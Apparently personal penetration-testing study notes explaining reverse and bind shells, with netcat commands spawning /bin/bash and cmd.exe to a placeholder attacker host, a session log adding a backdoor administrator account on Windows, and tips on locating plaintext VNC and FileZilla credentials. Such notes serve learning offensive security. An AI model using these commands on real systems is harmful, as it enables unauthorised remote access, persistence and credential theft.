 # Shells

- Shells are what we use when we are interfacing with a command line environment. (CLI)
- bash/sh are examples of shells in linux
- cmd.exe/powershell are examples of shells in windows
- when targeting remote systems it is sometimes possible to force an application into running arbitrary code.
- when this happens, we want to use this initial access to obtain a shell running on the target.

In simple terms,
- we can force the remote server to either send us command line access to the server **(a reverse shell)** or we can open up a port on the server which we can in order to execute further commands **(a bind shell)**
- So, we receive **reverse shells** and send **bind shells**

## Reverse Shell
- The target is forced to execute a piece of code that connects back to the computer.
- the attacking computer will have a listening port onto which the connection is received.
- reverse shells are good ways to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target
- but there is a pre-requisite that your incoming firewall should not block the reverse shell connection.

```
Example:-

# on the attacking machine

nc -lnvp 443

# on the target

nc <ATTACKING_MACHINE> 443 -e /bin/bash
```
## Bind Shell
- the code executed on the target invokes a listener on the target itself
- this would then be opened up to the internet, this means you can connect to the port that code has opened and obtain remote connection that way.
- this has the advantage of not configuring your network in anyway but the firewalls on the target side may block the connection to this newly opened port.

As a general rule, reverse shells are easier to connect and debug.

```
Example:- 

# on the attacking machine

nc <TARGET_MACHINE_IP> <PORT>

# on the target machine

nc -lnvp <port> -e cmd.exe

# this is what is called as remote code execution
```

## interactive and non-interactive shells

unfortunately most of the simple reverse and bind shells are non-interactive, which can make exploitation even trickier.
`where` is the output going is for you to find.

`listener` is often found in the attacking machines. It has an alias - `sudo rlwarp nc -lnvp 443`

## order of reading
- [ReadMe](./README.md)
- [tools](./tools.md)
- [stabilization techniques](./stabilization_techniques.md)
- [socat](./socat.md)
- [common shell payloads](./common_shell_payloads.md)
- [msfvenom](./msfvenom.md)
- [web shells](./webshells.md)

## References
- [dirty cow - priv esc vul in linux kernel](https://dirtycow.ninja/)
- [revshells](https://revshells.com)

## Extra-Info
- when you obtain a shell on windows you will connect as a SYSTEM user then privelge escalate yourselves.
- To connect to a windows host from linux host, ``
- `net user <username> <password> /add`
- `net localgroup administrators <username> /add`
```
➜  ~ socat tcp-listen:4445 -
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> 

PS C:\Users\Administrator> net user sai sai /add
net user sai sai /add
The command completed successfully.

PS C:\Users\Administrator> net localgroup administrators sai /add
net localgroup administrators sai /add
The command completed successfully.

PS C:\Users\Administrator> 

```
- VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml
 or C:\xampp\FileZilla Server\FileZilla Server.xml
